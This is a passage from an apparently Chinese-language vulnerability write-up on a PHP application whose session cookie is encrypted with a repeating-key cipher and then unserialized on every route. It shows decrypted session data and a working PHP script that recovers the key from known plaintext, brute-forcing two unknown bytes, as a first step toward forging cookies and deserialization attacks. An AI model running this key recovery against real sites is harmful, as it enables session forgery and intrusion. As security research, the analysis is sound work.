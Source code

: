 既然 decode 方法涉及到 cookie 的操作，会在任意路由的时候被调用。那么现在的问题就是如何获得到加密中用到 key 的值了，如果运气好，对方管理员没有修改默认的密钥就可以进行直接反序列化的攻击了，修改了则就需要通过一些反序列化中存在的字段推出密钥了。其实，这个加密可以看成简单的 ECB 对称加密，所以通过反序列化的格式以及键名就能反推出密钥了。

这里解开后的序列化数据如下所示：

```php
a:8:{s:13:"sessionuserid";s:2:"34";s:15:"sessionpassword";s:32:"e10adc3949ba59abbe56e057f20f883e";s:9:"sessionip";s:9:"127.0.0.1";s:14:"sessiongroupid";s:1:"1";s:16:"sessionlogintime";i:1708610036;s:15:"sessionusername";s:4:"test";s:16:"sessiontimelimit";i:1708610036;s:9:"sessionid";s:32:"ef05ad75e9656da99ba42372d756d477";}
```

截取的前 32 位为

```php
a:8:{s:13:"sessionuserid";s:2:"3
```

除了 sessionid 的值和注册的用户数量有关，所以密钥的第 32 位和倒数第 4 位没法准确的确定外，其它都可以还原出来了。而这两位也可以根据序列化的格式进行爆破。最终就可以还原出密钥了。

还原密钥的脚本如下：

```php
function decode1($info,$key=null)
{
    if(!$key)
    $key = '1hqfx6ticwRxtfviTp940vng!yC^QK^6';
    // $info = urldecode(($info));
    $kl = strlen($key);
    $il = strlen($info);
    for($i = 0; $i < $il; $i++)
    {
        $p = $i%$kl;
        $info[$i] = chr(ord($info[$i])-ord($key[$p]));
    }
    // var_dump($info);
    $info = unserialize($info);
    return $info;
}

function get_key($cookie){
    // $info='10adc3949ba59abbe56e057f20f883e"';
    // $enc=substr($cookie,64,32);

    $key = 'a:8:{s:13:"sessionuserid";s:2:"2';
    $info=urldecode(urldecode($cookie));
    $use_info=substr($info,0,32);
    $kl = strlen($key);
    $il = strlen($use_info);
    for($i = 0; $i < $il; $i++)
    {
        $p = $i%$kl;
        $use_info[$i] = chr(ord($use_info[$i])-ord($key[$p]));
    }
    for($i=0;$i<128;$i++){
        for($j=0;$j<128;$j++){
            $use_info[31]=chr($i);
            $use_info[28]=chr($j);
            if(decode1($info,$use_info)){
                return $use_info;
            }
        }
    }
    return 'error';
}
```
